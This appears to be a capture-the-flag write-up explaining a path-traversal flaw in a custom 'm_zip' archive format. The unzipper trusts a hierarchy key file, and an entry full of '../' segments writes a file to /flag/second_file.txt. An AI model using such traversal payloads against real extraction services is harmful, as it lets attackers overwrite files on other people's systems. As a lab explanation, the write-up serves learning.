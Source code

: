 ## Solution 
- m_zip files are created with the following directory structure: 
	- zip_file_name: 
		- .content: Holds all of the content for each file and name for all of the directories 
		- .hiearchy.key: Holds the hiearchy data for the location of each file 
		- .huffman.key: Holds the huffman table used for compression 
- When a zip file is recreating all of the files (from the content in the .content file that is huffman encoded), it trusts the `.hiearchy.key` file too much. 
- A `.hiearchy.key` encoded file may look like this: 
``
0 zipped/test_folder/second_folder/second_file.txt
1 zipped/test_folder/second_folder/second_file.txt
2 zipped/test_folder/a.out
3 zipped/test_folder/file.md
4 zipped/test_folder/flag.txt
5 zipped/test_folder/third_folder
6 zipped/test_folder/second_folder
7 zipped/test_folder/second_folder/nested_folder
8 zipped/test_folder
``
	- The numbers correspond to the compressed data within the .content file. 
	- The directory represents where the data should be written to. At decode time, the first directory (in this case zipped/) is removed. These are the locations where each file will be written to. 
- Because of the trust in the file names, it is possible to perform an directory traversal on the unzipping server. 
- This can be done by changing the `.hiearchy.key` file to have ``../``'s in the name. For example, we will write a file to /flag/second_file.txt
``
0 zipped/test_folder/second_folder/../../../../../../../../../flag/second_file.txt
1 zipped/test_folder/second_folder/second_file.txt
2 zipped/test_folder/a.out
3 zipped/test_folder/file.md
4 zipped/test_folder/flag.txt
5 zipped/test_folder/third_folder
6 zipped/test_folder/second_folder
7 zipped/test_folder/second_folder/nested_folder
8 zipped/test_folder
``
-
A seen above, the payload is ``zipped/test_folder/second_folder/../../../../../../../flag/second_file.txt``. 
	- This will traverse all the way to the root directory (/).
	- Then, end up being /flag/second_file.txt
- Note: 
	- There is no limit on the amount of ../'s being used. Eventually, this will hit the root directory and stop going up. 

